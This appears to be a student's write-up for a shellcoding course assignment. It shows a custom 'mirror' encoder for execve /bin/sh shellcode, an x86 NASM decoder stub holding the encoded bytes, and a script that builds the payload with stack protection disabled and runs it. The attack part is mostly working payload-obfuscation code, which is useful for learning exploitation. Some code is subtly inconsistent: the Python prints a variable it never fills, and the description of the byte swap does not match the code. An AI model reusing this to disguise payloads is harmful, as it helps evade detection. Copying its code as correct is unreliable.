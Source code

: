 # Assignment 4

## What to do:

-Create a custom encoding scheme like the “Insertion Encoder” we showed you. 

-PoC with using execve-stack as the shellcode to encode with your schema and execute.

## Solution: 
  1) Create the encoder.
  
  The encoder created (Mirror_encoder.py) takes the every 4 bytes of the shellcode and reverse its order, meaning, if the string taken is 0x45a3, the resultant will be 0xa345 (this is done until the end of the shellcode is reached). In case the shellcode has not even length, 0xf0 is added to the end of the shellcode to allow the "mirror" modification. 0xf0f0 is appended to the final shellcode as the marker which will be used to stop the nasm decoder.
    
  ###### Mirror-Encoder.py
  
    for x in bytearray(shellcode):  #Add to shell the shellcode as hexadecimal format
      shell += '\\x' + '%02x' % x

    shell2 = ""
    for i in range(0,4*len(bytearray(shellcode)),8): #Loop which takes 2 bytes and swap its order
      if (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==6:
        shell3 += "0"+ shell[i+5:i+8] + "," + "0"+shell[i+1:i+4] + ","
      elif (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==3: #If the length of the shellcode is not even, it is added 0xf0 to make it even. 
        shell3 += "0xf0" + "," + "0"+shell[i+1:i+4] + ","


    print shell2 + "0xf0,0xf0" #Marker to finish the decoder
    
  2) PoC with using execve-stack as the shellcode to encode.
  
   * The shellcode to be used is the one obtained from the execve-stack binary.
    
    nasm -f elf32 -o execve.o execve.nasm
    ld -o execve execve.o
    objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
   
   3) Create the nasm decoder.
   
* The shellcode obtained in the earlier step, must be passed to Mirror_Encoder.py where is "mirrored".
   
* Now, we have the shellcode to inject into the Mirror_decoder.nasm
   
   ###### Mirror-decoder-compile.sh
  
      global _start			

      section .text
      _start:

        jmp short call_shellcode  ;jump-call-pop technique

      decoder:

        pop esi			; pop shellcode into esi
        lea edi, [esi]		; Copy the position in memory of the shellcode to edi, where we will save the decoded one
        xor eax, eax		; Clearing out eax and ecx
        xor ecx, ecx

      decode:
        mov ax, [esi]                ; Moves the first to bytes of esi to ax
        mov cx, ax		     ;Moves ax to cx to check if it is the end of the shellcode
        xor cx, 0xf0f0               ; Compare cx with 0xf0f0 marker
        jz short EncodedShellcode    ; if xor os 0, jump to shellcode
        mov byte [edi], ah           ;Move the second byte to the first byte of edi
        mov byte [edi + 1], al;      ; Move the first byte to the second byte of edi --> 0x31c0 moves to 0xc031 in edi 	
        inc edi			     ; move to next byte in edi
        inc edi			     ; move to next byte in edi	
        inc esi			     ; move to next byte in esi
        inc esi                      ; move to next byte in esi 
        jmp short decode	     ; jump back to start of decode

      ;Modifications can be vieweb by using x/20xc *call during execution (gdb)	

      call_shellcode:

      call decoder
      EncodedShellcode: db 0xc0,0x31,0x68,0x50,0x2f,0x2f,0x68,0x73,0x2f,0x68,0x69,0x62,0x89,0x6e,0x50,0xe3,0xe2,0x89,0x89,0x53,0xb0,0xe1,0xcd,0x0b,0xf0,0x80,0xf0,0xf0,0xee,0xee

4) Compiling the final shellcode
    
* Once the nasm code is finished, we can use mirror-decoder-compile.sh to assembly and link it, copy the shellcode to the skeleton_shellcode.c, compile the final shellcode and execute it.
   
    ###### Mirror-decoder-compile.sh
    
          echo '[+] Assembling with Nasm ... '
          nasm -f elf32 -o mirror-decode.o mirror-decode.nasm

          echo '[+] Linking ...'
          ld -o mirror-decode mirror-decode.o

          echo '[+] Done!'

          sleep 2

          echo "[+] Dumping disassembling code.."

          objdump=$(objdump -d ./mirror-decode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g')

          echo $objdump 
          sleep 3

          echo "[+] Compiling shellcode.c and executing it.."

          cp skeleton_shellcode.c shellcode.c  #Copy the skeleton of the shellcode (it contais a string named shellcode which it will be replaced with objdump)

          replace "shellcode" "$objdump" -- shellcode.c &>/dev/null #Replace shellcode dump

          sleep 2

          gcc -fno-stack-protector -z execstack shellcode.c -o shellcode &>/dev/null #Compile and execute the shellcode


          ./shellcode    
